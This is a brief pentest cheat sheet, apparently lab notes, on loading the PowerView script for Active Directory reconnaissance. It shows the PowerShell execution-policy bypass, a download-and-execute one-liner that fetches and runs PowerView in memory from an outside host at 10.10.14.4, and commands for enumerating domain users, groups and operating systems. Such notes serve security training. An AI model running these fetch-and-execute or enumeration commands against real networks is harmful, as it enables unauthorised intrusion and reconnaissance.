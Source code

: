 # PowerView.ps1

### Bypass powershell

`powershell -ep bypass` `-ep` bypasses the execution policy of powershell allowing you to easily run scripts

### Starting Powerview

```
iex(new-object net.webclient).downloadstring('http://10.10.14.4:9090/PowerView.ps1')
```

`. .\Downloads\PowerView.ps1`

### Useful Commands

* Enumerate domain users : `Get-NetUser | select cn`
* Enumerate domain groups : `Get-NetGroup -GroupName *admin*`
* Enumerate domain OS : `Get-NetComputer -fulldata | select operatingsystem`

**LIST**&#x20;

{% embed url="https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993" %}

